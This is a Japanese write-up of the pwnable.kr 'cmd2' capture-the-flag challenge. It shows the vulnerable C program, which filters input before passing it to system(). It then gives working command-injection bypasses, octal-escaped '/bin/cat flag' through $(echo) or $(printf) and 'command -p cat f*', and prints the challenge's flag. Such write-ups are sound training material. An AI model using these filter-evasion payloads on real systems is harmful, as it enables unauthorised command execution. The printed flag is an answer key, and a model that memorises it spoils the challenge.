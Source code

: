 # 内容
まずはログインしてみる。
* パスワードはcmd1のフラグ。毎度同じのguestと入力しないように。

```bash
sh cmd2@pwnable.kr -p2222
cmd2@pwnable.kr's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Tue Jul 30 17:08:28 2019 from 49.135.83.29
cmd2@prowl:~$ ls
cmd2  cmd2.c  flag
cmd2@prowl:~$ ls -la
total 40
drwxr-x---   5 root cmd2     4096 Oct 23  2016 .
drwxr-xr-x 114 root root     4096 May 19 15:59 ..
d---------   2 root root     4096 Jul 14  2015 .bash_history
-r-xr-sr-x   1 root cmd2_pwn 8794 Dec 21  2015 cmd2
-rw-r--r--   1 root root      586 Dec 21  2015 cmd2.c
-r--r-----   1 root cmd2_pwn   30 Jul 14  2015 flag
dr-xr-xr-x   2 root root     4096 Jul 22  2015 .irssi
drwxr-xr-x   2 root root     4096 Oct 23  2016 .pwntools-cache
cmd2@prowl:~$ ./cmd2
Segmentation fault (core dumped)
cmd2@prowl:~$ cat ./cmd2
cmd2    cmd2.c
cmd2@prowl:~$ cat ./cmd2.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}

cmd2@prowl:~$
```

最初のdelete_env()でなにをしているかはわからないが、前回のcmd1よりfilterが強化されているのが分かる。
まず、exportや/は使えなくなっている時点で、前回のようにはいかない。
そこで、**/bin/cat flag**を16進数で出力することを考える。

# 手順
文字列を16進数に変換するときはxxd, echo, printf等が代表的で、今回はechoを使用する。

## echoで16進数に変更する方法
echoで16進数に変換するのはshとbashで方法が少し異なる。
* echoの特殊文字は8進数です！！！なので、１６進数から変換するのが良いと思います。
1. bash
	*  オプションeが必要。
  * ２バイトと書かないといけない？

```bash
cmd2@prowl:~$ echo -e "\0057"
/
cmd2@prowl:~$ echo -e "\57"
\57
cmd2@prowl:~$ echo -e \0057
0057
```

2. sh
	* オプションは必要なし、ていうか無い。
  * １バイトだけで良い
```bash
echo -e
-e
$ echo "\57"
/
$ echo "\0057"
/
``` 

以上を用いて、解答していく。

# 解答
16進数から8進数に変換するコードを書いた。

```python
def main():
  s = "/bin/cat flag"
  ans = "\""
  for i in s:
    ans += "\\" + str( oct( ord(i) ) )
  ans += "\""
  print(ans.replace("0o", ""))
if __name__ == '__main__':
  main()
```

```bash
$ python3 sol.py
"\57\142\151\156\57\143\141\164\40\146\154\141\147"
```

後は実行するだけ。

```bash
cmd2@prowl:~$ ./cmd2 '$(echo "\57\142\151\156\57\143\141\164\40\146\154\141\147")'
$(echo "\57\142\151\156\57\143\141\164\40\146\154\141\147")
FuN_w1th_5h3ll_v4riabl3s_haha
```

因みに、printfも特殊文字は８進数で書けるので、同じように実行すれば、フラグをゲットできる。

```bash
cmd2@prowl:~$ ./cmd2 '$(printf "\57\142\151\156\57\143\141\164\40\146\154\141\147")'
$(printf "\57\142\151\156\57\143\141\164\40\146\154\141\147")
FuN_w1th_5h3ll_v4riabl3s_haha
```


フラグゲット。

# 別解
system関数はmanで調べると、shで実行されていることが分かる。

```text
CRIPTION
       The system() library function uses fork(2) to create a child process that executes the shell command specified in command using execl(3) as follows:

           execl("/bin/sh", "sh", "-c", command, (char *) 0);

       system() returns after the command has been completed.

       During  execution  of  the command, SIGCHLD will be blocked, and SIGINT and SIGQUIT will be ignored, in the process that calls system() (these signals will be handled according to their defaults inside the child process that
       executes command).

       If command is NULL, then system() returns a status indicating whether a shell is available on the system
```


さらに、ここで気づくのが、実際にsystem関数を実行したら、commandコマンド(なんかややこしい)を実行していることがわかる。

このcommandコマンドはshellの組み込みコマンドで、"sh -c"と同じように動くらしい(間違えてるかも・・・)。
shのmanを見ると、使い方が載っている。

```text
command [-p] [-v] [-V] command [arg ...]
            Execute the specified command but ignore shell functions when searching for it.  (This is useful when you have a shell function with the same name as a builtin command.)

            -p     search for command using a PATH that guarantees to find all the standard utilities.

            -V     Do not execute the command but search for the command and print the resolution of the command search.  This is the same as the type builtin.

            -v     Do not execute the command but search for the command and print the absolute pathname of utilities, the name for builtins or the expansion of aliases.

```

つまり、実は16進数に変更しなくてもこのcommandコマンドを使用すれば、filter関数を回避できる。

```bash
cmd2@prowl:~$ ./cmd2 '$(command -p cat f*)'
$(command -p cat f*)
sh: 1: FuN_w1th_5h3ll_v4riabl3s_haha: not found
```

```bash
cmd2@prowl:~$ ./cmd2 "command -p cat \"f\"\"l\"\"a\"\"g\" "
command -p cat "f""l""a""g"
FuN_w1th_5h3ll_v4riabl3s_haha

```

```bash
cmd2@prowl:~$ ./cmd2 "command -p cat f*"
command -p cat f*
FuN_w1th_5h3ll_v4riabl3s_haha
```

もっといろいろ解法はある気がするが、疲れたので、やめる。
